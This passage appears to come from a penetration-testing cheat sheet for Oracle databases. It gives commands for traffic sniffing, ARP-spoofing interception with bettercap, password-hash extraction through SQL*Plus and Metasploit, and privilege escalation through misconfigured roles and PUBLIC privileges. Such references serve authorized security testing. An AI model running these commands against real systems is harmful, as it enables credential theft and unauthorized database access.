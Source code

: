     ```bash
    wireshark -i <interface> -f "tcp port 1521"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### Extracting Password Hashes

*   **Tool:** \[\[SQL Plus]]

    ```sql
    SELECT username, password FROM dba_users;
    ```

\


*   **Tool:** \[\[Metasploit]]

    ```bash
    use auxiliary/admin/oracle/oracle_hashdump
    set RHOSTS <target_ip>
    set SID orcl
    run
    ```
* **Description:** Retrieves password hashes from the Oracle database, which can then be cracked offline.

### Privilege Escalation

#### Abuse of Oracle Roles

*   **Tool:** \[\[SQL Plus]]

    ```sql
    SET ROLE DBA;
    ALTER USER scott IDENTIFIED BY new_password;
    ```
* **Description:** Exploit misconfigured roles or privileges within the Oracle database to escalate privileges, potentially gaining DBA access.

#### Abusing PUBLIC Privileges

*   **Tool:** \[\[SQL Plus]]

    ```sql
    EXEC UTL_FILE.FREMOVE('/tmp', 'backdoor.sql');
    ```
* **Description:** Exploits over-privileged PUBLIC roles to perform unauthorized actions.
